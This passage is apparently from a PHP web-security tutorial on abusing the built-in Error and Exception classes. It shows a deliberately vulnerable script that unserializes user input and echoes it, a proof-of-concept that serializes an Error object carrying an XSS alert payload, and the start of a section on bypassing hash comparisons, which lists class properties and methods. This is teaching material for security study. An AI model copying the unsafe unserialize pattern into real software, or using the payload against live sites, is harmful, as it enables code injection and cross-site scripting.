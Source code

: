 > The test code is as follows:

```php
<?php
    $demo = unserialize($_GET['cmd']);
    echo $demo;
?>
```
> `POC` code

```php
<?php
$demo = new Error("<script>alert('h3rmesk1t')</script>");
echo urlencode(serialize($demo));
?>
```
<img src="./images/3.png" alt="">

### Use Error/Exception to bypass hash comparison
> The two `Error` and `Exception` are built-in classes of `PHP`, which are not limited to `XSS`, but can also bypass the comparison of `md5()` function and `sha1()` function through clever construction.

#### Error Class
> Error` is the base class of all `PHP` internal error classes, which were introduced in `PHP7.0.0`

<img src="./images/4.png" alt="">

```php
Class properties:
    message: Error message content
    code: Error code
    file: throws the error file name
    line: Number of lines thrown in the file

Class Method:
    Error::__construct — Initialize the error object
    Error::getMessage — Get error message
    Error::getPrevious — Return to the previous Throwable
    Error::getCode — Get error code
    Error::getFile — Get the file when the error occurred
    Error::getLine — Get the line number when the error occurred
    Error::getTrace — Get the call stack (stack trace)
    Error::getTraceAsString — Get a call stack (stack trace) in the form of a string
    Error::__toString — String expression of error
    Error::__clone — cloning error
```
#### Exception class
> `Exception` is the base class for all exceptions, which was introduced in `PHP5.0.0`

<img src="./images/5.png" alt="">

```php
Class properties:
    message: Exception message content
    code: exception code
    file: file name that throws exception
    line: The line number of the exception thrown in the file
Class Method:
    Exception::__construct — Exception constructor
    Exception::getMessage — Get exception message content
    Exception::getPrevious — Returns the previous exception in the exception chain
    Exception::getCode — Get exception code
    Exception::getFile — The name of the program file when the exception is created
    Exception::getLine — Get the line number in the file where the created exception is located
```